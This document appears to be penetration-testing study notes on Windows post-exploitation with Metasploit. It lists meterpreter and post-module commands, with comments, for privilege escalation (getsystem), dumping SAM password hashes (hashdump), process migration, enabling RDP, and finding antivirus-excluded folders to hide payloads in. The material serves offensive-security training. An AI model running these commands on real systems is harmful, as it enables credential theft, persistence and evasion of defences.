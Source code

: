 # a - Windows Post Exploitation

## <mark style="color:red;">**Windows Post Exploitation Modules**</mark>

* The MSF provides us with various post exploitation modules for both Windows and Linux.
* We can utilize these post exploitation modules to enumerate information about the Windows system we currently have access to:
  * Enumerate user privileges
  * Enumerate logged on users
  * VM check
  * Enumerate installed programs
  * Enumerate AVs
  * Enumerate computers connected to domain
  * Enumerate installed patches
  * Enumerate shares

## **Practical Demonstration**

<pre class="language-bash" data-overflow="wrap" data-line-numbers><code class="lang-bash"># meterpreter on windows.
meterpreter > sysinfo
meterpreter > help # help menu.
meterpreter > getsystem # Attempt to elevate privileges on the target system through Token Impersonation..
meterpreter > hashdump # Dump the hashes from the SAM database
meterpreter > show_mount # Show all the drives on the target system (fixed or removable drives).
meterpreter > ps # list all the processes.
meterpreter > migrate &#x3C;PID> # Migrate to another process

# post exploitation modules.
msf5 > use post/windows/archmigrate #Migrate to another architecture
msf5 > use post/windows/manage/migrate # Create a new process and migrate to it.
msf5 > use post/windows/gather/win_privs #Return privileges of the current user
msf5 > use post/windows/gather/enum_logged_on_users # Enumerate logged on and previously logged on users
msf5 > use post/windows/gather/checkvm #Check if the system is running inside a VM.
msf5 > use post/windows/gather/enum_applications # Enumerate installed application on the windows target system
msf5 > use post/windows/gather/<a data-footnote-ref href="#user-content-fn-1">enum_av_excluded</a> # Enumerate folders excluded by WIndows AV scans, this can be useful as we can store our payloads there.
msf5 > use post/windows/gather/enum_computers # Enumerate computers part of the target system primary domain
msf5 > use post/windows/gather/enum_patches # Enumerate windows applied patches.
msf5 > use post/windows/gather/enum_shares # Enumerate windows SMB share.
msf5 > use post/windows/manage/enable_rdp # Allow to enable RDP.
</code></pre>
